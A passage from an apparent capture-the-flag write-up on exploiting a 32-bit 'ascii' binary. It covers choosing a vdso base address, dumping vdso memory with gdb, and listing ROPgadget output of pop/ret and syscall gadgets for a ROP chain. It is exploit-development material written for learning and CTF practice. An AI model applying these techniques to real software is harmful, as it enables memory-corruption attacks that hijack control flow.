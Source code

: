 Luckily, `vdso` sits somewhere that's already in ascii space, considering the last 3 bytes are used to direct our ROPchain to certain gadgets!

Note that, assuming a uniform random distribution over the possible spaces (which we can verify by looking at the random number generation algorithm underlying the value) we can just pick an arbitrary `vdso` start value from one run and just use that.

# Finding Applicable ROPgadgets

This is surprisingly, refreshingly easy to do, after the rabbit hole that was the last section, with `ROPgadget`:
This assumes the same `gdb` state as above, importantly that the vdso is loaded into memory at the same locations as above:
```
(gdb) dump memory /tmp/obfuscated/vdso 0x55570000 0x55571000
```
```
ascii@pwnable:/tmp/alexsieusahai$ ROPgadget --binary vdso | grep pop
0x000006fb : adc al, 0x31 ; rcr byte ptr [ebx + 0x5e], 0x5f ; pop ebp ; ret
0x000007e6 : adc al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x000007e4 : add esp, 0x14 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x000006f9 : add esp, 0x14 ; xor eax, eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x00000a46 : arpl word ptr [ebx + 0x5e5b14c4], ax ; pop edi ; pop ebp ; ret
0x0000068d : cmp eax, ecx ; ja 0x690 ; mov eax, ecx ; pop ebx ; pop ebp ; ret
0x0000068f : ja 0x68e ; mov eax, ecx ; pop ebx ; pop ebp ; ret
0x00000684 : jb 0x699 ; jbe 0x695 ; mov edx, ebx ; pop ebx ; pop ebp ; ret
0x00000686 : jbe 0x693 ; mov edx, ebx ; pop ebx ; pop ebp ; ret
0x00000b01 : je 0xb0b ; mov dword ptr [edx], ecx ; pop ebx ; pop ebp ; ret
0x00000a45 : jne 0xab3 ; add esp, 0x14 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x000007e5 : les edx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x000006fa : les edx, ptr [ecx + esi] ; rcr byte ptr [ebx + 0x5e], 0x5f ; pop ebp ; ret
0x00000b03 : mov dword ptr [edx], ecx ; pop ebx ; pop ebp ; ret
0x00000aff : mov eax, ecx ; je 0xb0d ; mov dword ptr [edx], ecx ; pop ebx ; pop ebp ; ret
0x00000691 : mov eax, ecx ; pop ebx ; pop ebp ; ret
0x000007e2 : mov ebx, edx ; add esp, 0x14 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x00000688 : mov edx, ebx ; pop ebx ; pop ebp ; ret
0x00000b2d : nop ; nop ; nop ; pop eax ; mov eax, 0x77 ; int 0x80
0x00000b2e : nop ; nop ; pop eax ; mov eax, 0x77 ; int 0x80
0x00000b2f : nop ; pop eax ; mov eax, 0x77 ; int 0x80
0x00000685 : or esi, dword ptr [esi + 5] ; mov edx, ebx ; pop ebx ; pop ebp ; ret
0x00000b30 : pop eax ; mov eax, 0x77 ; int 0x80
0x00000b59 : pop ebp ; pop edx ; pop ecx ; ret
0x0000068b : pop ebp ; ret
0x0000068a : pop ebx ; pop ebp ; ret
0x000006fe : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x00000b5b : pop ecx ; ret
0x00000700 : pop edi ; pop ebp ; ret
0x00000b5a : pop edx ; pop ecx ; ret
0x000006ff : pop esi ; pop edi ; pop ebp ; ret
0x000006fd : rcr byte ptr [ebx + 0x5e], 0x5f ; pop ebp ; ret
0x000007e3 : rol dword ptr [ebx + 0x5e5b14c4], cl ; pop edi ; pop ebp ; ret
0x00000683 : sal dword ptr [edx + 0xb], cl ; jbe 0x696 ; mov edx, ebx ; pop ebx ; pop ebp ; ret
0x000006fc : xor eax, eax ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```
